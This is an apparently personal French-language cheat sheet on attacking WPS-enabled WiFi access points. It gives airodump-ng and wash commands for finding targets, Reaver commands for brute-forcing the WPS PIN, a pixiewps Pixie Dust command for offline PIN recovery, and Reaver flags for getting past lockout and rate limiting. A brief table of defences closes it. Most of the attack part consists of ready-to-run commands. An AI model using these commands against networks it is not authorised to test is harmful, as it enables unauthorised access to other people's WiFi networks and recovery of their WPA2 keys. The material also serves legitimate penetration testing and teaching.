

# 🔢 Attaques WiFi — WPS

> [!info] **En 1 phrase**
> Le **WPS** (Wi-Fi Protected Setup) laisse entrer un **PIN de 8 chiffres** (validation en 2 moitiés → seulement 11 000
> combinaisons) : on le brute-force avec **Reaver** (en ligne) ou on exploite la faille **Pixie Dust** (PKE/PKR,
> crack **offline en secondes**) — puis on récupère la clé WPA2 en clair.

---

## 🎯 Concept



> [!info] 💡 **Pourquoi le WPS est une backdoor**
> Le PIN (8 chiffres) est vérifié en **2 étapes de 4+3** chiffres → **~11 000** combinaisons seulement.
> En plus, les **nonces EAP (PKE/PKR)** sont souvent faibles → **Pixie Dust** les retrouve offline.

---

## 🔍 Détecter le WPS

```bash
airmon-ng start wlan0
airodump-ng mon0

# Installation des outils
apt-get -y install build-essential libpcap-dev aircrack-ng pixiewps
git clone https://github.com/t6x/reaver-wps-fork-t6x
apt-get install reaver

# Wash : voir les AP avec WPS (actif / verrouillé / version)
wash -i mon0
```

> [!warning] ⚠️ Un WPS **locked** a beaucoup moins de chances de succès.

---

## ⌨️ Attaque online avec Reaver

```bash
# Attaque brute-force du PIN (peut être LONG)
reaver -i mon0 -b $AP_MAC -vv -S
reaver -i mon0 -c <Channel> -b $AP_MAC -p <PinCode> -vv -S
reaver -i mon0 -c 6 -b 00:23:69:48:33:95 -vv
```

---

## ⚡ Pixie Dust (offline, secondes)

```bash
# 1. Capturer les nonces EAP (PKE, PKR, e-hash1, e-hash2, authkey, e-nonce)
#    Reaver en cours d'attaque affiche ces valeurs (ou wash/fork t6x)
pixiewps -e <pke> -r <pkr> -s <e-hash1> -z <e-hash2> -a <authkey> -n <e-nonce>

# 2. Le PIN est retrouvé → l'utiliser avec Reaver pour obtenir la clé
reaver -i <monitor interface> -b <bssid> -c <channel> -p <PIN>
```

> [!tip] 💡 **Pixie Dust** exploite la génération **faible des nonces** (D-Link, TP-Link, etc.) :
> les secrets EAP sont dérivés du temps/du compteur → **crack hors-ligne** instantané.

---

## 🛡️ Bypass des protections (rate-limit, locked)

> Certains fabricants protègent le WPS. Options Reaver pour contourner :

```bash
reaver -i mon0 -c 6 -b 00:23:69:48:33:95 -vv -L -N -d 15 -T .5 -r 3:15
# -L : ignorer l'état "locked"
# -N : ne pas envoyer de NACK quand erreurs détectées
# -d : délai X secondes entre chaque tentative de PIN
# -T : timeout X secondes (.5 = demi-seconde)
# -r : après X tentatives, dormir Y secondes
```

---

## 🔍 Détection & Défense

| Réponse | Détail |
|---|---|
| **Désactiver WPS** | La seule défense efficace — beaucoup d'AP permettent de le couper |
| **Firmware à jour** | Pixie Dust est corrigé sur les AP récents (nonces aléatoires) |
| **WPS avec push-button uniquement** | Empêche l'attaque PIN en ligne |
| **Surveillance** | Les séquences M1-M8 répétées sont détectables (WIDS) |

## ⚠️ Tips & Pièges

- « **Detected AP rate limiting, waiting 315 seconds** » = le AP est protégé → très long (voir switches `-d -r`).
- « **Receive timeout occurred** » = le AP est **trop loin** (puissance).
- Le WPS donne la **clé en clair** → pas besoin de cracker le handshake ensuite.
- Certaines box récentes **désactivent le WPS après échecs** → patience et bon timing.

> [!info] 📚 **Sources**
> GitHub : [swisskyrepo/HardwareAllTheThings – `docs/protocols/wifi/wifi-wpa.md`](https://github.com/swisskyrepo/HardwareAllTheThings/blob/main/docs/protocols/wifi/wifi-wpa.md) (section WPS)

➡️ **Liens :** [[Attaques WiFi (WPA2 et PMKID)|📶 Hub WiFi]] · [[Attaques WiFi - WPA2 PSK|🔐 WPA2-PSK]] · [[Attaques WiFi - Préparation & Basiques|🧰 Préparation]] · [[Bibliothèque technique|🏠 Index]]
